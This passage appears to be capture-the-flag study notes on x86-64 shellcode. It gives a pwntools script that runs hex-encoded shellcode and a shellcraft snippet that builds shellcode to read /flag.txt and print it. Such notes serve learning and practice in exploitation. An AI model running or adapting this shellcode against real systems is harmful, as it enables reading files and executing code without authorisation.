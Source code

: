 ```asm
    add rsp, 8          ; Restore stack alignment
    ret

Exit:
    mov rax, 60
    mov rdi, 0
    syscall
```

#### Boundary Added for Alignment:

* **8 bytes**

***

### Shellcodes

#### Python Script for Executing Shellcode:

```python
#!/usr/bin/python3

from pwn import *

context(os="linux", arch="amd64", log_level="error")

shellcode = unhex('4831db536a0a48b86d336d307279217d5048b833645f316e37305f5048b84854427b6c303464504889e64831c0b0014831ff40b7014831d2b2190f054831c0043c4030ff0f05')

run_shellcode(shellcode).interactive()
```

Run it:

```bash
python3 shell.py
```

***

#### Injecting Shellcode via Netcat

1.  Generate the shellcode. Assuming the flag is in `/flag.txt`:

    ```python
    from pwn import *

    context(os="linux", arch="amd64")

    # Generate shellcode to open /flag.txt and read its content
    shellcode = shellcraft.open('/flag.txt') + \
                shellcraft.read('rax', 'rsp', 100) + \
                shellcraft.write(1, 'rsp', 100)

    print(asm(shellcode).hex())
    ```
2.  Disassemble the shellcode for analysis:

    ```bash
    objdump -d -M intel loaded_shellcode > disassembled_code.asm
    ```

